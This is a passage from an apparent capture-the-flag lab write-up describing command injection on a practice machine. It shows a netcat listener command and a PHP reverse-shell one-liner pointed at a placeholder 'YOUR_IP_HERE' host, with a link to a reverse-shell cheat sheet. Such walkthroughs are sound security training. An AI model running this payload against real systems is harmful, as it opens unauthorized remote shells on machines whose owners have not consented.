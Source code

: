 <img style="float: left;" src="screenshots/screenshot6.png">

The room states that there are two possible ways to exploit this: **Setting up a reverse shell**, or using the '**find**' command to find hidden password files within the system. Personally, I will be trying to set up a reverse shell.

<br>

First, I set up a netcat listener on my localhost using **nc -lvnp 1234.**

Next, following an online reverse-shell cheatsheet: [**https://highon.coffee/blog/reverse-shell-cheat-sheet/**](https://highon.coffee/blog/reverse-shell-cheat-sheet/)**,** I ran the command inside the command field:

 ```
 php -r '$sock=fsockopen("YOUR_IP_HERE",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
 ```

Which opens a php reverse shell. There were many other options in the cheatsheet, but I chose the php one as I had success with it before.

<img style="float: left;" src="screenshots/screenshot7.png">

And with that, I was able to run a  reverse shell and gain access into the target machine.
